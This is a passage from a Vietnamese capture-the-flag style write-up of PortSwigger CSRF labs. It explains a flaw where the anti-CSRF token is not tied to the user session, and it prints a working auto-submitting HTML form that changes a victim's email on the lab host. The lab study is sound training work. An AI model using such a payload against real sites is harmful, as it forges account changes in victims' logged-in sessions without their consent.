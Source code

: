 ![image](https://hackmd.io/_uploads/SkFKSoEcp.png)

Gửi cho nạn nhân và ta solve được challenge.

- khi nạn nhân click vào đường link chúng ta gửi thì 1 request POST sẽ được gửi từ server exploit của chúng ta kèm theo session của người dùng vẫn còn hiệu lực đến server web hiện tại và nó sẽ lầm tưởng là chính victim đang thực hiện hành động đó và chấp nhận

![image](https://hackmd.io/_uploads/SkRKBj4qp.png)

## 4. Lab: CSRF where token is not tied to user session

link: https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-not-tied-to-user-session

### Đề bài

![image](https://hackmd.io/_uploads/BJn_PsV9p.png)

### Phân tích

- Ứng dụng web này vẫn bị dính CSRF mặc dù có trang bị CSRF token nhưng token này không được lưu vào session của user → CSRF token của user này vẫn có thể dùng cho người khác.

Cụ thể, khi đăng nhập tài khoản `wiener:peter`, ta thu thập CSRF token tại form update email.

![image](https://hackmd.io/_uploads/HJSKdoEcT.png)

- Đăng nhập sang `carlos:montoya`, sử dụng CSRF token vừa trên để update email thì thành công → token này không được lưu vào session của từng user.

![image](https://hackmd.io/_uploads/HJv2Kj456.png)

Ta nhận thấy email đã được thay đổi thành công

![image](https://hackmd.io/_uploads/H19Ojs49p.png)

### Khai thác

- Tận dụng điều đó, ta sẽ tạo payload với CSRF token được lấy ở tài khoản đang có. Tất nhiên CSRF token phải chưa được sử dụng.
- Payload sẽ là 1 form update email với 2 trường email và csrf, trong đó csrf sẽ là giá trị CSRF token vừa lấy được ở bước trên

![image](https://hackmd.io/_uploads/r1fPqoNqp.png)

```htmlmixed=
<html>
  <body>
    <form action="https://0aab005e0339af09801a588e0073008e.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacked&#64;csrf&#46;com" />
        <input type="hidden" name="csrf" value="6KWeuxDe7YBDyQ9y8wJiprFhcSwh1d04" />
    </form>
    <script>
        document.forms[0].submit();
    </script>
  </body>
</html>
```
